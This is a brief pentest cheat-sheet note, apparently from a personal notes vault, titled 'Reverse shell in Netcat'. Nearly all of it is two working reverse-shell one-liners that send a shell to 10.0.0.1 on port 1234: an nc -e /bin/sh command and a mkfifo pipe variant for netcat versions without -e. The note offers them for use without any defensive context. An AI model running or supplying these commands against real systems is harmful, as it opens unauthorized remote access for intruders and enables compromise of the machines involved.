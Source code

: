 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Reverse shell in Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

``nc -e /bin/sh 10.0.0.1 1234``

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
